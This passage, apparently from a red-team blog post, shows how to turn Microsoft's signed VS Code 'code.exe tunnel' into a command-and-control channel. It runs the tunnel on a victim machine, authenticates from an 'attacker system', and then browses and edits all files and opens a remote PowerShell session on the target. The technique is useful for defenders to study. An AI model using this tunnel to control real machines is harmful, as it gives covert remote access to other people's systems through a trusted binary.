 ```This CLI will output a vscode.dev URL tied to this remote machine, such as https://vscode.dev/tunnel/<machine_name>/<folder_name>. You can open this URL on a client of your choosing.```
![Code.exe signed by MS](/assets/media/Code_C2/Code_Cert.png){:width="100%"}
*Code.exe signed by MS*

- Start the binary on the client.

```
PS C:\temp> .\code.exe tunnel
*
* Visual Studio Code Server
*
* By using the software, you agree to
* the Visual Studio Code Server License Terms (https://aka.ms/vscode-server-license) and
* the Microsoft Privacy Statement (https://privacy.microsoft.com/en-US/privacystatement).
*
✔ Do you accept the terms in the License Agreement (Y/n)? · yes
To grant access to the server, please log into https://github.com/login/device and use code 71BC-3082
...
```

- We follow the instrctions and open the provided url on our attacker system.
We will see a device code authentication, like known from Azure.
![Github Device Code Authentication](/assets/media/Code_C2/Code_Tunnel_Step1.png){:width="75%"}
*Github Device Code Authentication*

- After that, the code tunnel will be established.

```
PS C:\temp> .\code.exe tunnel
*
* Visual Studio Code Server
*
* By using the software, you agree to
* the Visual Studio Code Server License Terms (https://aka.ms/vscode-server-license) and
* the Microsoft Privacy Statement (https://privacy.microsoft.com/en-US/privacystatement).
*

Open this link in your browser https://vscode.dev/tunnel/itsmeC2/C:/temp
```

### Connect via Browser or VSCode

So we do as told and open the page in a browser on our attacker machine.

We get a nice Working Project on the victims machine.
Over the URL, we can control the path, meaning if we just use C: we get access to all files on the system, in the limits of the user permissions.
So open [https://vscode.dev/tunnel/itsmeC2/C:](https://vscode.dev/tunnel/itsmeC2/C:) and add the C: to the workspace.

![File Browser](/assets/media/Code_C2/Code_C2_1.png){:width="100%"}
*File Browser on the target*

Nice, we can browse, read and edit all the files remotly.


Filebrowsing is nice, but what about Command Execution?
We just say: Menue -> Terminal -> New Terminal
![Remote Powershell](/assets/media/Code_C2/Code_C2_2.png){:width="100%"}
*Remote Powershell session*

and we get a nice Powershell remote session on the client.

The Remoteshell has everything we want
```